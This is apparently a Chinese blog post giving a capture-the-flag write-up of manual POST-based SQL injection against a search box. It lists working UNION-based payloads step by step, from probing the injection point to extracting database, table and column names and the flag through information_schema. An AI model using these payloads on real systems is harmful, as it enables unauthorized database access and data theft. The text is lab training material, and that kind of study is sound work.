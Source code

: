 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SQL注入 --手工post          # 标题 
subtitle:   post注入   #副标题
date:       2020-03-13              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - SQL注入 
    
    - Web
    
    
---
```


## 原理:

简单的说就是在post/getweb表单、输入域名或页面请求的查询字符串中插入SQL命令，最终使web服务器执行恶意命令的过程。
假设某网站页面显示时URL为`http://www.xxx.com?test=123` ，此时URL实际向服务器传递了值为123的变量test，这表明当前页面是对数据库进行动态查询的结果。由此，我们可以在URL中插入恶意的SQL语句并进行执行。

## 题目:

**一个简单的输入搜索框**


## 考察点：
**sql注入中的post注入。**

一般有两种方式：

第一种方式，通过burpsuit抓包存在一个文件中，然后通过sqlmap -r进行读取。

第二种方式，通过手工注入，构造`payload`，进行union查询。如果通过手工注入，怎么分析注入点，怎么构造payload，怎么获取表名列名，怎么读取数据呢？

## 解题过程：

**1.** 首先查看网页源代码，发现是post方法，果断打开hackerbar。post注入是通过对输入框进行传参，可以被带入数据库进行的查询，
post注入的两个条件：(1)用户可以控制传参，(2)用户输入的语句被带入数据库进行查询。

**2.** Post data 框 输入`search='`，发现页面出错，可知存在注入的可能。继续输入`search=' and 1=1`，发现依然报错，`search=' and 1=1#` 发现变回正常页面。证明存在注入点，可用'  #进行闭合。

如何理解所构造的payload？


OK,简单的解释一下SQL语句.我们搜索的内容是 `' and 1=1 # `,代入到数据库的语句是:` select * from XXX where search = ' ' and 1=1 #'`，搜索框开头输入的单引号闭合了原来前面的单引号，最后是一个#,注释了后面的单引号,数据库在执行语句的时候其实执行的是:`select * from XXX where content = ' ' and 1=1`,这个语句理解就很简单了。

**3.** 用`order by` 查询当前页面连接的列名个数：`search=' order by 1# `页面返回正常 ，直到4，页面开始出错，说明有3个。

**4.** 使用`union` 联合查询 显错点，输出点，语句：`search='  union select 1,2,3# `，页面爆出显位2，3。

**5.** OK,接下来的步骤就很容易了，利用hackerbar插件，构造`search= ' Union Select 1,CONCAT_WS(0x203a20,USER(),DATABASE(),VERSION()),3# `,得到数据库名为news。

**6.** 接着获取表名，构造`search= ' Union Select 1,group concat(table name),3 from information schema.tables where table schema= 0x6E657773 # `，得到表名为**f1agfl4gher3。**
 注意：这里需要把数据库名称`news`做了一个16进制Hex编码，编码之后为`0x6E657773 `。

**7.** 同理获取列名：`search= ' Union Select 1,group concat(column name),3 from information schema.columns where table name=0x66316167666C346768657233)# ` ，得到列名为**h3r31sfl4g。**

**8.** 最后获取数据，`search= ' Union Select 1,h3r31sfl4g,3 from f1agfl4gher3 # `，得到flag！

**flag{sql_ information_ schema_ hack}**





[参考链接（一）](https://www.fujieace.com/penetration-test/mysql-manual-injection.html)

[参考链接（二）](https://blog.csdn.net/qq_42097777/article/details/89088142)

## 谢谢您的查阅，欢迎来访！
